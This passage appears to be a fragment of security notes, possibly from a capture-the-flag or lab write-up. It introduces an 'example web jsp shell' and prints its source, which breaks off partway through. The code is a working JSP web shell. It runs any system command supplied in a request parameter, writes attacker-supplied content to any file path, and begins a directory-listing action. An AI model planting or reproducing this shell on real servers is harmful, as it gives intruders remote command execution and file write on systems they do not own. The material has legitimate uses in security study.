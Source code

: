 ![](images/Pasted%20image%2020250724151903.png)
There is a example web jsp shell 
```
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            // Execute system commands
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        } else if ("upload".equals(action)) {
            // File upload
            String filePath = request.getParameter("path");
            String fileContent = request.getParameter("content");
            if (filePath != null && fileContent != null) {
                File file = new File(filePath);
                try (BufferedWriter writer = new BufferedWriter(new FileWriter(file))) {
                    writer.write(fileContent);
                }
                output = "File uploaded to: " + filePath;
            } else {
                output = "Invalid file upload parameters.";
            }
        } else if ("list".equals(action)) {
            // List directory contents
```